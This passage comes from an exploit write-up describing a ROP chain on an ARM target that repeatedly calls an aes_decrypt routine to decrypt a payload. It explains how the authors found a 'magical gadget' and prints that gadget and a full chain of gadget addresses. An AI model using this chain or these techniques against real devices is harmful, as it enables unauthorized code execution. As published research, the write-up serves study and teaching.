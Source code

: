 If the condition is met, then SP is set back to the start of the loop. Cool, right!

### Decrypt Payload

The actual decryption code was perhaps the hardest to write. In theory, it is simple enough: `aes_decrypt(ctx = r6, src = user_buf+counter, r2 = r7+counter)`. However, the difficulty comes from the fact that we cannot use R6, R7, SB and therefore we must let `aes_decrypt` save the callee saved arguments into the stack. However, the PUSH instruction will corrupt our ROP chain. The first attempt was to just leave a chunk of space in the chain (using ADD SP) before calling `aes_decrypt`. That doesn't work however, as LR is pushed to where the gadget to call `aes_decrypt` used to be (breaking the next iteration). Since the gadget to call `aes_decrypt` will be corrupted no matter what, the only way around it is to rewrite that gadget into the chain in each iteration.

We did not have any usable gadgets of the form `STR SP, [Rs, #-IMM]` so the store must happen before the call. The only gadgets of the form `STR SP, [Rs, #IMM]` had IMM at most 0x1C so the write gadget must be very close to the `aes_decrypt` call. However, this brings us back to the original problem that `aes_decrypt` corrupts the 0x18 bytes of the stack above it. To make matters even worse, we also need to set R1 and R2 before making the function call (the arguments). It is impossible to find a gadget that both writes to the stack and also sets R1 and R2 to the right value, so we must setup R1 and R2 beforehand. This means our gadget restoring gadget must also not touch R1 and R2. After hours of searching, the perfect gadget was found

```
  str r5, [sp, #0xc]
  ldr r5, [sp, #0x38]
  str r5, [sp, #0x10]
  blx r4
  add sp, #0x1c
  pop {r4, r5, pc}
```

This gadget is highly non-degenerate. It is almost tailor made for our specific purpose. To prevent confusion (there will be confusion), we will now refer to this as the "magical gadget." Here's how we used it:

```
  .word BASE+0x00001411 @ pop {r4, r5, pc}
  .word BASE+0x00000347 @ r4 = pop {pc}
  .word BASE+0x000209d7 @ r5 = str r5, [sp, #0x10] @ blx r4 @ add sp, #0x1c @ pop {r4, r5, pc}
  .word BASE+0x000209d3 @ str r5, [sp, #0xc] @ ldr r5, [sp, #0x38] @ str r5, [sp, #0x10] @ blx r4
  .word BASE+0x00001411 @ pop {r4, r5, pc}
  .word BASE+0x00000347 @ r4 = pop {pc}
  .word BASE+0x0001baf5 @ r5 = 0xD8678061_aes_decrypt

  @ BEGIN region overwritten by decrypt
  .word      0xDEADBEEF @ becomes str r5, [sp, #0x10] @ blx r4 @ add sp, #0x1c @ pop {r4, r5, pc}
  @ lr = add sp, #0x1c @ pop {r4, r5, pc}
  .word      0xDEADBEEF @ becomes add sp, #0xc @ pop {pc}
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ becomes 0xD8678061_aes_decrypt(r0 = ctx, r1 = src, r2 = dst) @ bx lr
  @ END region overwritten by decrypt

  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ dummy
  .word BASE+0x0000652b @ loaded by above: add sp, #0xc @ pop {pc}
  .word      0xDEADBEEF @ dummy
  .word      0xDEADBEEF @ r4 = dummy
  .word      0xDEADBEEF @ r5 = dummy
```
